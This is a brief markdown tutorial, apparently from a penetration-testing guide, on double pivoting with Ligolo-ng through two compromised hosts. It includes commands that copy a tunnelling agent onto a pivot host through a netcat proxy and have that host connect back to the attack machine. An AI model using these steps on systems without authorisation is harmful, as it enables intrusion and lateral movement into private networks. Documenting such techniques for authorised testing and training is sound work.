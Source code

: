 ### Initial Setup

- Attack Machine (192.168.1.10)
- First Pivot (192.168.1.5) with access to Second Network (10.10.10.0/24)
- Second Pivot (10.10.10.20) with access to Target Network (172.16.5.0/24)

### Step 1: Set Up First Pivot

Follow the single pivoting steps to establish connection with the first compromised host and add routes to the second network:

```bash
# On attack machine
sudo ip route add 10.10.10.0/24 dev ligolo
```

### Step 2: Deploy Agent on Second Pivot

Transfer the agent to the second pivot host:

```bash
# Using the tunnel to transfer the agent
scp -o ProxyCommand="nc -X connect -x 127.0.0.1:1080 %h %p" agent user@10.10.10.20:/tmp/
```

### Step 3: Set Up Multi-Listener on Proxy

To allow the second agent to connect back:

```
ligolo-ng » listener_add --addr 0.0.0.0:11602 --name second_listener

[+] Listener 'second_listener' added.
```

### Step 4: Connect Second Agent

On the second pivot (10.10.10.20):

```bash
./agent -connect attack_machine_ip:11602 -ignore-cert
```

### Step 5: Configure Second Pivot

In the Ligolo-ng proxy interface:

```
# List sessions
ligolo-ng » session

# Connect to the second pivot
ligolo-ng » session 1

# Get network info
ligolo-ng (10.10.10.20) » ifconfig

# Start listener
ligolo-ng (10.10.10.20) » start
```

